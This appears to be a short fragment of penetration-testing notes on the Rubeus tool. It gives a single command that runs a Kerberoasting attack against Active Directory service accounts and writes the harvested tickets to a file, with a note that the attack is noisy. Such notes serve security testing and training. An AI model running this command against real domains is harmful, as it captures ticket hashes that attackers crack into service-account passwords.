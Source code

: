 	Rubeus | Tickets Requests and Renewals
	Various SPNS or single SPN:
		Rubeus.exe kerberoast /outfile:out.txt #TOO MUCH NOISE